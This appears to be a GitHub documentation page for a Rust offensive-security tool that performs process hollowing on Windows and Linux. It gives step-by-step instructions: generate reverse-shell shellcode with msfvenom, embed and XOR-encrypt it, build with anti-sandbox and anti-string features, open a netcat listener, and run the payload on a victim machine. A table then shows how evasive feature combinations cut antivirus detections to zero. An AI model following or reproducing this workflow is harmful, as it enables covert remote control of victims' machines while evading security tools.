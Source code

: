 ```yaml
---
title: "Process Hollowing"
datatable: true
---
```


# RCO: Process Hollowing

[![Process hollowing version unavailable](https://img.shields.io/crates/v/process_hollowing?label=process_hollowing)](https://github.com/kmanc/remote_code_oxidation/tree/master/process_hollowing)

<div class="datatable-begin"></div>

Target OS | Demo
--------- | ----
Linux     | [![process_hollowing_linux](/assets/gifs/process_hollowing.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/process_hollowing.gif)
Windows   | [![process_hollowing_windows](/assets/gifs/process_hollowing_windows.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/process_hollowing_windows.gif)

<div class="datatable-end"></div>

## How it works

Windows process hollowing works by creating a suspended process and writing the [shellcode](https://en.wikipedia.org/wiki/Shellcode) over the entry point of the process's main thread. It then resumes the suspended process, which in turn executes the shellcode.

Linux process hollowing functions a little differently. First, the executable creates a child process by cloning itself. Then it overwrites the child process's [instruction pointer](https://datacadamia.com/computer/instruction/instruction_pointer) with shellcode. Because this process was not running before the attack, it is unlikely this will cause any issues on the victim machine.


## Using it

1.  *[Not shown in demo]* Generate shellcode for the desired end result (for example, use [msfvenom](https://book.hacktricks.xyz/shells/shells/msfvenom) to generate a reverse TCP shell shellcode for the target operating system)
2.  *[Not shown in demo]* Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the shellcode to the shellcode generated in step 1
3.  *[Optional - shown in [xor_params demo](https://kmanc.github.io/remote_code_oxidation/xor_params.html)]* Encrypt the shellcode and target process using [xor_params](https://github.com/kmanc/remote_code_oxidation/blob/master/xor_shellcode) and update the encrypted shellcode value in [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs)  
4.  *[Not shown in demo]* Compile the executable, only including `--features xor` if you did step 3
    1.  Build for Linux target
    ```commandline
    cargo build -p process_hollowing [antisand][,][antistring][,][xor]] --release
    ```
    2.  Build for Windows target
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p process_hollowing [antisand][,][antistring][,][xor]] --release
    ```
5.  Start a netcat listener on the attacking machine on the same port you configured the shellcode to connect to in step 1
```commandline
nc -nlvp 4444
```   
6.  Execute the payload on the victim machine
7.  Return to the listener and enter desired commands for the victim machine to run


## Detection rates

<div class="datatable-begin"></div>

Target OS | Features                      | Detections                             | Screenshot
--------- | ----------------------------- | -------------------------------------- | ----------
Linux     | None                      | [5 / 63](https://www.virustotal.com/gui/file/7df9b774203440d4a7d83549c6553f0c553cee8ef1260b3c5efa48b2a9bf9c50)  | [![process_hollowing_linux](/assets/images/linux/hollowing.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/linux/hollowing.png)
Linux     | `xor`                     | [0 / 62](https://www.virustotal.com/gui/file/9565ff2330df0cb2cc76a1f823df7d1d87ef7f607d65e237a86a8c29e7293343)  | [![process_hollowing_linux_xor](/assets/images/linux/hollowing_xor.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/linux/hollowing_xor.png)
Windows   | None                      | [22 / 69](https://www.virustotal.com/gui/file/856ebd9dad645881c48b74a8e9dac6bb991306a5059434166d58aa19f324c9cf) | [![process_hollowing_windows](/assets/images/windows/hollowing.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing.png)
Windows   | `antistring`              | [21 / 70](https://www.virustotal.com/gui/file/6b0bb17f07d3b6c4ff1c4933673e3c084279ecf57055cd2d755c2adb69e11c50) | [![process_hollowing_windows_antistring](/assets/images/windows/hollowing_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antistring.png)
Windows   | `antisand,antistring`     | [21 / 69](https://www.virustotal.com/gui/file/008f22866e790cee1fea0c17f247cd01634a7e078e64de3801fa64503604eb49) | [![process_hollowing_windows_antisand_antistring](/assets/images/windows/hollowing_antisand_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antisand_antistring.png)
Windows   | `antisand`                | [20 / 70](https://www.virustotal.com/gui/file/91d1e17d64615d1651cc03a6d13b4d9826fb4abb72d21ba3cc99e63c07fe63b0) | [![process_hollowing_windows_antisand](/assets/images/windows/hollowing_antisand.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antisand.png)
Windows   | `xor`                     | [14 / 69](https://www.virustotal.com/gui/file/c84ceff2c9a3ed9484123d6274d66fe06e017dfa5c102c197c492cfbda423414)  | [![process_hollowing_windows_xor](/assets/images/windows/hollowing_xor.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_xor.png)
Windows   | `antistring,xor`          | [3 / 70](https://www.virustotal.com/gui/file/4f71c2fea7e716e9792660229eecd065170fde1072460f4e8fdbfb4e2acd896c)  | [![process_hollowing_windows_antistring_xor](/assets/images/windows/hollowing_antistring_xor.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antistring_xor.png)
Windows   | `antisand,xor`            | [0 / 70](https://www.virustotal.com/gui/file/b3648518f2f68a724026596a12f894c873298dcb3a53b7f4442eb7ffcade20b7)  | [![process_hollowing_windows_antisand_xor](/assets/images/windows/hollowing_antisand_xor.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antisand_xor.png)
Windows   | `antisand,antistring,xor` | [0 / 70](https://www.virustotal.com/gui/file/415ff816dee411f7a3b2db0fbd2ea2433b86a44cd42644434ead9357d6b46443)  | [![process_hollowing_windows_antisand_antistring_xor](/assets/images/windows/hollowing_antisand_antistring_xor.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/hollowing_antisand_antistring_xor.png)

<div class="datatable-end"></div>
